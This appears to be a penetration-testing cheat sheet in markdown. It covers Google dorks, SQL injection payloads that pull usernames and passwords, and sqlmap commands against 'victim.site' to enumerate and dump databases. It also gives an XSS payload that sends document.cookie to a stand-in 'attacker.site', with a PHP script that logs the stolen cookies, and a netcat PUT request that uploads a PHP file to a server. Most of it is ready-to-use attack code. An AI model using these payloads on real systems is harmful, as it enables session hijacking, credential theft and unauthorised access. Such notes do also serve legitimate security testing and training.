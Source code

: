 Example: `-inurl:(htm|html|php|asp|jsp) intitle:"index of" "last modified" "parent directory" txt OR doc OR pdf`\
See also the [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

**XSS**

Payload: `<script>var i = new Image(); i.src = "http://attacker.site/log.php?q+"+document.cookie;</script>`\
Server:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

**SQLi**

Payloads:

* `' OR 'a'='a`
* `' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a`
* `' OR substr(user(),1,1) = 'a`
* `' UNION SELECT user(); -- -`

Sqlmap:

* `sqlmap -u 'http://victim.site/view.php?id=1141' --cookie "PHPSESSID=m42ba4etbktcktvjadirnsqqg4;`
* `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U`
* `sqlmap -u 'http://victim.site/view.php?id=1141' --banner`
* `sqlmap -u 'http://victim.site/view.php?id=1141' -v3 --fresh-queries`
* `sqlmap -u 'http://victim.site/view.php?id=1141' --users`
* `sqlmap -u 'http://victim.site/view.php?id=1141' --dbs`
* `sqlmap -u 'http://victim.site/view.php?id=1141' --tables`
* `sqlmap -u 'http://victim.site/view.php?id=1141' -D <db-name> -T <table-name>`
* `sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <db-name> --columns`
* `sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <db-name> --dump`
* `sqlmap -u 'http://victim.site/login.php' --data='user=a&pass=a' -p user --technique=B --banner`
* `sqlmap -r post-vuln-sqli.txt -p user --technique=B --banner`

Tip: Dump only the data you're interested in, not the whole database. Dumping a lot of data using SQLi is very noisy and a heavy process.

**Misconfigured PUT method**

```bash
wc -m payload.php
20 payload.php
```

```bash
nc victim.site 80
PUT /payload.php HTTP/1.1
Host: victim.site
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```
